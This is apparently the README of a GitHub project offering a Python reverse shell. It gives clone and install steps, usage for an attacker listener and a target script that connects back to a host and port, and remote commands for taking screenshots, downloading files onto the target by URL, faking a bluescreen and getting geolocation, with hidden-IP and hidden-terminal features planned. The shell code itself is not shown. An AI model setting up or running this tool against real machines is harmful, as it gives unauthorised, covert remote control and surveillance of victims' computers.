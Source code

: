 # Ultimate Reverse Shell #

Reverse shell implementation using Python.
<br/><br/>


## Installation ##
**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd ult_reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage ##
### 1. Listen for target ###
On attacker machine, run the `attacker.py` script.
```
python3 attacker.py [port]
```

### 2. Execute reverse shell ###
On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```


## Commands ##
```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnecting process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```


## Features ##
### Implemented ###
* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented ###
* Packet encoder/decoder.


## TODOs ##
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
